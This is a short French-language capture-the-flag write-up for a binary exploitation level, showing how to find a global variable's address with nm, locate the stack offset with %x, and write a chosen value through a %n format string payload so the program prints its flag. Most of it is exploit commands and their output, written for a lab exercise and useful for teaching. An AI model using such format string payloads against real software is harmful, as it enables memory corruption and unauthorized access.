 #  LEVEL - 4

- Nous voyons dans le code source que la variable que nous devons override est m. Avec la commande `nm` nous pouvons afficher les addresses.

<pre>
$> nm level4
...
<strong>08049810 B m</strong>
080484a7 T main
08048457 T n
08048444 T p
...
</pre>

- Nous avons l'adresse qui nous interesse. En litle indian: 10 98 04 08. Nous devons alors chercher l'endroit exacte de l'adresse grace au printf.

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%x ' * 13)" | ./level4
AAAAb7ff26b0 bffff734 b7fd0ff4 0 0 bffff6f8 804848d bffff4f0 200 b7fd1ac0 b7ff37d0 41414141 <strong>8049810</strong>
</pre>

- On voit que dans la source il faut que m soit egal a 16930116 pour que le programe execute un cat sur le flag. Grace au %13\$n nous prenons la 13e adresse (soit l'adresse de la variable m que nous devons override).

<pre>
$> python -c "print ('AAAA' + '\x10\x98\x04\x08' + '%16930108d'+ '%13\$n')" | ./level4> /tmp/output
</pre>

- Il suffit alors d'ouvrir le `/tmp/output` avec vim pour voir le flag. (attention au cat ^^).
